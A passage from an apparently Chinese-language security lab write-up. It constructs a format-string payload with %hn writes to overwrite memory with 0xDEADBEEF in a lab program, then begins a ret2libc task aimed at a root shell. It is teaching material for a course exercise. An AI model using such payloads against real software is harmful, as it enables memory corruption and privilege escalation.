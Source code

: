 注意 因为0xBEEF小于0xDEAD，因此在BEEF前加1变为1BEEF-DEAD，但在存入高地址的时候因为位 数不够1会被省略

DEAD = 57005

1BEEF = 114415

57005-44=56961

114415-57005=57410

仿照（1），我们构造命令

```bash
echo $(printf "\x56\xED\xFF\xBF@@@@\x54\xED\xFF\xBF")%.8x%.8x%.8x%.8x%.56961x%hn%.57410x%hn > input

./prog1 < input | grep -a address
```

成功修改

![image-20220525211128430](README.assets/image-20220525211128430.png)

# 任务2：针对prog2的漏洞利用

> 1. 开启 Stack Guard 保护，并开启栈不可执行保护，通过 ret2lib 进行利用 ，获得 shell （可以通过调用 system(“/bin/sh”)）
> 2.  尝试设置 setuid root，观察是否可以获得 root shell
> 3.  提示：需要查找 ret2lic 中的 system 函数和“/bin/sh”地址

## （1）开启 Stack Guard 保护，并开启栈不可执行保护，通过 ret2lib 进行利用 ，获得 shell 

开启Stack Guard，开启栈不可执行保护，则编译命令是

`gcc -fstack-protector -z noexecstack -o prog2 prog2.c`

首先创建一个空的badfile再执行该程序，以获取输入字符串存储地址、fmtstr()函数的EBP地址如下：

![image-20220524204944311](README.assets/image-20220524204944311.png)
